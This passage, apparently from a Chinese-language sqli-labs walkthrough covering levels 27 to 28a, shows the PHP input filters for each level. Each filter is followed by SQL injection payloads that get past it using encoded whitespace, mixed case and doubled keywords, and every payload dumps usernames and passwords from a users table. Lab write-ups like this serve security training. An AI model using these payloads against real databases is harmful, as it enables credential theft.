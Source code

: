 ```php
return $id;
}
```

可以使用大小写绕过

payload

```
1111'%0bununionion%0bsElect%0b1,(sElect%0bgroup_concat(username,':',password)%0bfrom%0busers),3||'1
```

```
1111'%0bunioN%0bsElect%0b1,(sElselectect%0bgroup_concat(username,':',password)%0bfrom%0busers),3||'1
```

## less-27a

闭合方式改成`"`双引号

payload

```
1111"%0bunioN%0bsElect%0b1,(sElect%0bgroup_concat(username,':',password)%0bfrom%0busers),3||"1
```

## less-28 union\s+select/i

```php
# 过滤 /*
$id= preg_replace('/[\/\*]/',"", $id);

# 过滤 - # 注释
$id= preg_replace('/[--]/',"", $id);
$id= preg_replace('/[#]/',"", $id);

# 过滤 空格 +
$id= preg_replace('/[ +]/',"", $id);.

# 过滤 union select /i 大小写都过滤
# \s+ 匹配一个或多个空白字符（包括空格、制表符、换行符等
$id= preg_replace('/union\s+select/i',"", $id);
return $id;
```

闭合方式`')`

payload

```
1111')%0bunioN%0bsElect%0b1,(sElect%0bgroup_concat(username,':',password)%0bfrom%0busers),3||('1
```

## less-28a
